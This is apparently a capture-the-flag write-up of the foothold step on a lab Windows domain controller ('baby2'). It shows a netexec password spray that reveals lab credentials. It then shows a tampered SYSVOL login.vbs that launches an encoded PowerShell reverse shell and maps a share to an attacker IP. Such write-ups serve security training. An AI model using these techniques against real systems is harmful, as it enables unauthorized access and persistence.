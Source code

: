 # Foothold

To get a valid user i just sprayed the user's with the usernames as password with netexec and found 2 Valid credentials:

```bash
┌──(kali㉿kali)-[~/Documents/baby2]
└─$ nxc smb 10.10.125.204 -u users.txt -p users.txt --no-bruteforce --continue-on-success
SMB         10.10.125.204   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
SMB         10.10.125.204   445    DC               [-] baby2.vl\Amelia.Griffiths:Amelia.Griffiths STATUS_LOGON_FAILURE 
SMB         10.10.125.204   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.10.125.204   445    DC               [-] baby2.vl\Harry.Shaw:Harry.Shaw STATUS_LOGON_FAILURE 
SMB         10.10.125.204   445    DC               [-] baby2.vl\Joan.Jennings:Joan.Jennings STATUS_LOGON_FAILURE 
SMB         10.10.125.204   445    DC               [-] baby2.vl\Joel.Hurst:Joel.Hurst STATUS_LOGON_FAILURE 
SMB         10.10.125.204   445    DC               [-] baby2.vl\Kieran.Mitchell:Kieran.Mitchell STATUS_LOGON_FAILURE 
SMB         10.10.125.204   445    DC               [+] baby2.vl\library:library 
SMB         10.10.125.204   445    DC               [-] baby2.vl\Lynda.Bailey:Lynda.Bailey STATUS_LOGON_FAILURE 
SMB         10.10.125.204   445    DC               [-] baby2.vl\Mohammed.Harris:Mohammed.Harris STATUS_LOGON_FAILURE 
SMB         10.10.125.204   445    DC               [-] baby2.vl\Nicola.Lamb:Nicola.Lamb STATUS_LOGON_FAILURE 
SMB         10.10.125.204   445    DC               [-] baby2.vl\Ryan.Jenkins:Ryan.Jenkins STATUS_LOGON_FAILURE 
```

Credentials:

```
Carl.Moore:Carl.Moore
library:library
```

With the `library` user we can overwrite the login.vbs within the SYSVOL share and get a callback onto our responder but the hash from `Amelia.Griffiths` is not crackable using rockyou.

but we can get a reverse shell instead by adding `createobject("wscript.shell").run"Powershell -e BASE64......"` to the `login.vbs`:

```vb
Sub MapNetworkShare(sharePath, driveLetter)
    ...
End Sub

createobject("wscript.shell").run"powershell -e BASE64....."

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\10.8.0.28\test", "L"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```
